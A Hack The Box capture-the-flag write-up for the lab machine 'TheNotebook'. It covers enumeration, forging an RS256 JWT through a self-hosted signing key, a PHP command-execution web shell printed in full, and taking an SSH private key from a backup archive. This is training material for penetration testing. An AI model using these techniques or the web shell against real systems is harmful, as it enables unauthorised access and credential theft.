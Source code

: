 # The NoteBook @ Hackthebox

![image](https://user-images.githubusercontent.com/5285547/127499612-feb4ebdf-63f1-4899-b91f-14c7d161d146.png)

Link: https://app.hackthebox.eu/machines/TheNotebook

## Enumeration

### Nmap

```
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
1234/tcp  open     hotline
10010/tcp filtered rxapi

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: B2F904D3046B07D05F90FB6131602ED2
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
1234/tcp  open     http    SimpleHTTPServer 0.6 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/3.6.9
|_http-title: Directory listing for /
10010/tcp filtered rxapi
```

## Port 80

Let's check out this Note Keeper application from the nmap scan. 

![image](https://user-images.githubusercontent.com/5285547/127500008-0f75dbcf-22ac-429d-8fa7-1a0f7a1a892e.png)

Looks like a simple enough application, lets Register an account and enter the main app. 
I choose to register up as admin to see if an account existed first. 

Details
```
username: admin
password: admin
email: a@a.com
```

![image](https://user-images.githubusercontent.com/5285547/127500224-1fd6eed9-16fa-468c-93df-cde6e7e5bd18.png)

So I tried the old add a space to the admin name trick, surprisingly this worked. 

```
'admin '  # note the space after admin
```

Now logged in as user "admin " I can access notes and make a new note. 

![image](https://user-images.githubusercontent.com/5285547/127500550-21482f2b-035a-49cd-916e-6fd87c9a9e7a.png)

![image](https://user-images.githubusercontent.com/5285547/127500583-09d0c62f-1eda-48ca-b6f6-febffeddd1af.png)


I tested for vulnerabilities like xss, ssrf, crsf but didn't found anything.  
So I opened up Burp suite to check the login and auth responses. 
There I found what looked like a JWT token. 

## Jwt token (RS256)

![image](https://user-images.githubusercontent.com/5285547/127500957-9512cd21-9106-467f-a140-3c4c7aa75235.png)

Opening the token in jwt.io I can see the tokens details. 

![image](https://user-images.githubusercontent.com/5285547/127507282-88faa774-8e99-4a85-bfaa-1e4816843474.png)

Seeing the "privKey.key" and "RS265" I knew this was vunerable as we should be able to use our own  
certificate to authenticate the jwt token. 

Info: 
The algorithm RS256 uses the private key to sign the message and uses the public key for authentication

Let's generate a new private.key and use that to sign our jwt token with changed details.  
Doing so without the signing of the token will invalidate it. 

- Steps: 
  1. Generate a new private key
  ```
  openssl genrsa -out example.key 4096
  ```

  2. Start a web server in the directory with the example.key file in. 
  ```
  python3 -m http.server 80
  ```

  3. Change the values in the token. 

  ```
  change the "kid" value to your hosted file
  change the username to "admin" (without the space now)
  change the "admin_cap" to 1
  Add the example.key to the "private" field on jwt.io
  ```

  ![image](https://user-images.githubusercontent.com/5285547/127506901-2b9fc01a-9856-487a-ad51-1be068ef7152.png)

  4. Take the new token and reaplce it for the token on the webpage (cookies) 

  ![image](https://user-images.githubusercontent.com/5285547/127503185-0131b6b5-1410-4f06-8e88-2c6f488fff57.png)

   Now refresh the page to become the real admin and check out the new notes. 

  ![image](https://user-images.githubusercontent.com/5285547/127507069-16871b30-886d-429f-85c6-f6b095b25412.png)



One of the notes suggests that PHP can be executed and now we have access to upload files,  
let's try for a reverse shell. 

Upload a basic shell first. 

shell_web.php
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
![image](https://user-images.githubusercontent.com/5285547/127510079-39ebfe5a-4cac-4a44-bdf4-9ba296077934.png)

Uploading this and then viewing the file, we can now execute commands. 
Then move onto a better shell. 

![image](https://user-images.githubusercontent.com/5285547/127510331-a1fa62dc-551b-4f15-b38d-4d6f63e2b8c4.png)


## User

Looking around the system, I find a strange backup in the /var/backups folder

```
home.tar.gz
```

I copy it to the /tmp directory and have a look inside to find an ssh key for noah the user on the box. 

```
cp /home.tar.gz /tmp
cd /tmp
gunzip home.tar.gz
tar -xvf home.tar
cd home/noah/.ssh
cat id_rsa
```

Using the id_rsa key we can login as noah

```
nano noah_id_rsa
#Paste in the id_rsa you got
#close and save file

chmod 600 noah_id_rsa
ssh -i noah_id_rsa noah@10.10.10.230
```

![image](https://user-images.githubusercontent.com/5285547/127514317-703f435b-7c36-4f02-9e83-5af12cab84a8.png)

Then go ahead and get the user.txt flag! 

## Root

Looking at "sudo -l" shows something intresting!

![image](https://user-images.githubusercontent.com/5285547/127515744-fcfcd06d-c6da-4513-b21d-a23349c61d3f.png)

Looks like a docker escape or path/command abuse based on the wildcard "\*" after webapp-dev01




Credits: https://www.freecodecamp.org/news/openssl-command-cheatsheet-b441be1e8c4a/



